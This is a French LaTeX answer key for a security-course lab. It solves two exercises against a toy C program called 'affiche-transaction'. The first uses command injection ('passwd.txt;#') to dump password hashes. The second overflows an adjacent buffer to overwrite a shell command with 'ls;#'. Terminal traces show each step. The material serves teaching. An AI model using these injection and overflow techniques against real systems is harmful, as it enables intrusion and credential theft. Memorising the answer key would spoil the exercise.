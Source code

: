 \documentclass[a4paper,9pt]{article}
\newenvironment{terminal}{\color{black}\begin{snugshade*}}
{\end{snugshade*}\color{black}}
\theoremstyle{plain}
\theoremstyle{definition}
\begin{document}
\begin{correction}
\begin{enumerate}
\item Il faut modifier  la commande \verb|bash| exécutée par \verb|system| comme suit:
  \begin{itemize}
  \item l'entrée \verb|YYYY| est utilisée pour mettre le fichier \verb|passwd.txt| en argument du \verb|cat|.
  \item  On met ensuite un \verb|#| pour commenter ce qui suit (le \verb|-tansactions.txt| qui est concaténé).
  \end{itemize}
  Voici une trace d'exécution
\begin{terminal}
\begin{verbatim}
user@pc:~$ ./affiche-transaction julien aaaa
pw_hash=ScMbjFG7X0lduHhErJ8sb.
Entrez l'année des transactions:passwd.txt;#
command=cat passwd.txt;#-transactions.txt
marc   ScMbjFG7X0lduHhErJ8sb.
julien  ZJzeyzrAsFeetibF7X6Ow.
\end{verbatim}
\end{terminal}
\item Ici il faut faire un débordement de tampon afin de modifier \verb|cat| en \verb|ls;#|. Les tableaux de caractères  \verb|nom|,\verb|passwd|,\verb|annee| et \verb|command| sont contigus en mémoire. Donc en faisant déborder le tableau \verb|annee| on peut modifier le début de la chaine de caractères \verb|command|. Essayons en ajoutant des commentaires \#....\# avant \verb|ls;#| jusqu'à le faire apparaitre au début de command:
\begin{terminal}
\begin{verbatim}
user@pc:~$ ./affiche-transaction julien aaaa
pw_hash=ZJzeyzrAsFeetibF7X6Ow.
Entrez l'année des transactions:###############ls;#
command=cat ###############ls;#-transactions.txt
user@pc:~$ ./affiche-transaction julien aaaa
pw_hash=ZJzeyzrAsFeetibF7X6Ow.
Entrez l'année des transactions:###################ls;#
command=;####################ls;####################ls;-transactions.txt
sh: 1: Syntax error: ";" unexpected
*** stack smashing detected ***: terminated
Aborted (core dumped)
user@pc:~$ ./affiche-transaction julien aaaa
pw_hash=ZJzeyzrAsFeetibF7X6Ow.
Entrez l'année des transactions:#####################ls;#
command=ls;######################ls;##-transactions.txt
2000-transactions.txt  affiche-transaction.c   attaque-dictionnaire.c~		 overflow-nom-fichier.c~  remplir-tab.c
affiche-tab.c	       affiche-transaction.c~  calc.c				 passwd.txt		  remplir-tab.c~
affiche-tab.c~	       a.out		       calc.c~				 passwd.txt~		  transaction-2000.txt~
affiche-transaction    attaque-dictionnaire.c  dictionnary-french-passwords.txt  remplir-tab
\end{verbatim}
\item Le corrigé  est donné dans le fichier \verb|attaque-dictionnaire.c|.
\end{terminal}
\end{enumerate}

\end{correction}
\end{document}
